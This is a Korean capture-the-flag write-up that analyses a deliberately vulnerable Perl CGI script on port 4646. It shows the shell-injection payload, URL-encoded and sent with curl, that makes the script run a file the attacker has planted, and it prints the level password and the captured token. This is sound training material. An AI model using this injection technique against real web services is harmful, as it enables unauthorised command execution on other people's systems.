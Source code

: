 > Password: fa6v5ateaw21peobuub8ipe6s

# 접근 방법

홈 디렉토리의 `level12.pl`파일을 보면

```perl
#!/usr/bin/env perl
# localhost:4646
use CGI qw{param};
print "Content-type: text/html\n\n";

sub t {
  $nn = $_[1];
  $xx = $_[0];
  $xx =~ tr/a-z/A-Z/;
  $xx =~ s/\s.*//;
  @output = `egrep "^$xx" /tmp/xd 2>&1`;
  foreach $line (@output) {
      ($f, $s) = split(/:/, $line);
      if($s =~ $nn) {
          return 1;
      }
  }
  return 0;
}

sub n {
  if($_[0] == 1) {
      print("..");
  } else {
      print(".");
  }
}

n(t(param("x"), param("y")));
```

`4646`번 포트에서 `CGI`가 작동중인데, `x`라는 쿼리 파라미터로 들어온 값을 
```perl
$xx =~ tr/a-z/A-Z/; # 소문자 -> 대문자로 변경
```
```perl
$xx =~ s/\s.*//; # 공백이 존재할 경우 공백과 그 뒤의 내용을 전부 제거
```
정규식으로 처리를 거친 후 결과 문자열을 패턴으로 사용해 `egrep`으로 `/tmp/xd`파일에 적용한 결과가 `y`쿼리 파라미터의 값과 같은지 비교하여 `..`이나 `.`을 출력해주는 프로그램인 것을 볼 수 있다.

이때 대문자 변경, 공백 제거라는 빈약한 입력 검증 이후에 값을 그대로 shell으로 평가한다는 점을 이용해서

`/tmp/xd` 파일에 `getflag|wall`을 넣어주고

쿼리 파라미터 `x`에 `"<a;."`라는 내용을 `urlencode`하여 넣어주면
쉘에서 평가되는 부분이

```perl
@output = `egrep "^"<a;."" /tmp/xd 2>&1`;
```
으로 바뀌게 되면서, 결과적으로 `/tmp/xd`의 내용을 쉘 스크립트로 취급하여 실행하라는 의미가 되면서 `token`을 얻을 수 있다. 


```bash
$ echo "getflag|wall" > /tmp/xd
$ curl 127.0.0.1:4646?x=%22%3Ca%3B.%22


Broadcast Message from flag12@Snow
        (somewhere) at 22:21 ...

Check flag.Here is your token : g1qKMiRpXf53AWhDaU7FEkczr

..
```